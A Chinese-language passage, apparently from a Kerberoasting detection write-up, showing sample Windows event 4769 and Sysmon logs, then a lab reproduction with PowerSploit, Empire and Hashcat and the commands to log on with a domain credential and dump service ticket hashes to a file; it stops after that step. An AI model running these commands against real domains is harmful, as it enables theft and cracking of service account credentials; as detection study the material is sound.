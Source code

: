 ### 日志示例
- 安全日志（事件ID4769）：
  ```
  事件ID:4769
  服务名称:MSSQLSvc/DC1.test.com
  账户名:user1
  账户域:TEST
  客户端地址:::ffff:192.168.1.100
  票证选项:0x40810000
  票证加密类型:0x17 (RC4-HMAC)
  ```
- Sysmon事件ID1：
  ```
  事件ID:1
  OriginalFileName:powershell.exe
  CommandLine:powershell.exe -ExecutionPolicy Bypass -File Invoke-Kerberoast.ps1
  CurrentDirectory:C:\Users\user1\
  User:TEST\user1
  Hashes:SHA1=1A2B3C4D5E6F7A8B9C0D1E2F3A4B5C6D7E8F9A0B
  ParentImage:C:\Windows\System32\cmd.exe
  ```

## 测试复现

### 环境准备
- 攻击机：KaliLinux2019
- 靶机：
  - WindowsServer2012（域控制器，安装ActiveDirectory）
  - WindowsServer2016（运行服务，如SQLServer）
- 工具：
  - PowerSploit（Invoke-Kerberoast）
  - Empire（Kerberoast模块）
  - Hashcat（哈希破解）
  - Sysmon（可选，日志收集）

### 攻击分析

#### 测试1：使用PowerSploit进行Kerberoasting
1. **获取域用户权限**：
   - 使用已知域用户凭据登录WindowsServer2016：
   ```cmd
   net use \\DC1.test.com\IPC$ /user:TEST\user1 Password123
   ```

2. **导入PowerSploit模块**：
   ```powershell
   Import-Module .\Invoke-Kerberoast.ps1
   ```

3. **执行Kerberoasting**：
   ```powershell
   Invoke-Kerberoast -OutputFormat Hashcat | Select-Object -ExpandProperty Hash | Out-File -FilePath kerberoast_hashes.txt
   ```
